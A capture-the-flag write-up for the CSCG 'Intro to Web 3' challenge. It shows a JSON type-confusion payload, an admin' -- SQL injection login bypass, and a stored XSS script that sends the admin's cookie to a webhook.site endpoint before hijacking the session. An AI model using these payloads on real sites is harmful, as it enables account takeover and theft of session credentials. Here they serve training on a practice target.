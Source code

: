 # Intro to Web 3
Alright. We've looked at what happens on your browser and also what happens in the communication between your browser and our web server. But what actually happens on our web server? What even is a web server?

## Solution
Full flag: CSCG{Q8oIoy3Ps956UwvvWIfJAzNs}

### Part 1 (JavaScript exploiting)
The website takes an input between 50 and 100, calculates a random number and hashes the flag with the amount of the lower number of the two.

The website code show no exploitation. Taking a look at the source code server side, we can see that there are restrictions for the input. It has to be not undefindet, no string and if its a number not lower than 50. But this isnt checking for ohter JSON data types:
```js
const crypto = require("crypto");
let flag = require("./flag");

function randomHashing(request, response) {

    // take the user's number and make sure they actually sent us a positive number
    const chosenNumber = request.body["chosenNumber"];
    if (chosenNumber === undefined || typeof chosenNumber === "string") {
        response.status(400).send("You must choose a number!");
        return;
    }
    if (typeof chosenNumber === "number" && chosenNumber < 50) {
        response.status(400).send("Hey, no cheating!");
        return;
    }

    // now pick our own random number and take whichever one is lower
    const randomNumber = Math.floor(Math.random() * 100 + 1);
    const iterations = Math.min(chosenNumber, randomNumber);

    // sha256 the flag that often
    let hashedFlag = flag;
    for (let i = 0; i < iterations; i++) {
        hashedFlag = crypto.createHash("sha256").update(hashedFlag).digest('hex');
    }

    response.send(`Here's the first part of your flag, sha256'd ${iterations} times: ${hashedFlag}`);
}

module.exports = randomHashing;
```

The Math.min function doesnt check for numbers as inputs. So in zap we can rewrite the request and send the following payload: `{"chosenNumber":false}`. With that the JavaScript code takes a '0' as minimum and does not hash the flag at all.

As response we get the unhashed part of the flag: _Here's the first part of your flag, sha256'd 0 times: CSCG{Q8oIoy3P_

### Part 2 (SQLi)
From the description we know that SQL injection is the way to go. Also we know that there should be some kind of admin user. So trying the following SQL statement as login:
```
admin' --
```

Inspecting the given code from the server this will create the following SQL call querry:
```
SELECT username,is_admin from users WHERE username='admin' --' AND password='password';
```

We close the querry with the apostrophe and commenting the rest of the command out with the double dashes. So the command is basically search for the values of the admin user, doesnt matter what the password is.

And so is our result:
```
Login
Logged in as: admin
Here's your flag part 2/3: s956Uwvv 
```

### Part 3 (XSS)
Good to know: _Modern browsers sandbox almost everything. The JavaScript interpreter in one browser tab usually can't access anything that isn't strictly part of that tab. So you can't just read someone's hard drive files or their saved secrets from another site._

Checking if the website is vulnerable can be done with the following statement: `<script>alert("test");</script>`. If we put this inside a guest book entry and refresh the site, we will get a pop up alert notification with the content 'test'.

The description says that there is a cookie from the admin, that the need to authenticate. Accessing a cookie in JavaScript can be done by the following:
```js
let cookie = document.cookie;
```

But with this command the cookie is no where we can access to it. For accessing it we can use websites like https://requestbin.io or https://webhook.site. Here we can create a http endpoints, which logs every http request, that reaches it. So if we add the cookie from the variable to the request an send it, the site will log it. This can be done with the following code:
```js
<script>
let cookie = document.cookie;
window.location.replace("https://webhook.site/fefa0848-9057-468c-8b64-312d24be0879/" + cookie);
</script>
```

After a few seconds we get our admin cookie on Webhook: https://webhook.site/fefa0848-9057-468c-8b64-312d24be0879/session-id=d82bbb0739fc1493b5625186b6e5faa7bfb6da35b485c468a13d703b432db500

In zap we can now manipulation the request for the website and replace our cookie with the admin cookie. As response we get the last part of the flag:
```html
[...]
<li>[2023-03-22 17:15:39.672641] @admin: Hello, welcome to my guestbook!</li></ul>

<h3>Secret Flag Info</h3>
<hr>
Here's your flag part 3/3: WIfJAzNs}
</body>
</html>
```

Alternative we can recreate our session, so that the guestbook is empty again. Now we can manipulate our session cookie with a cookie editor and paste the admin cookie.
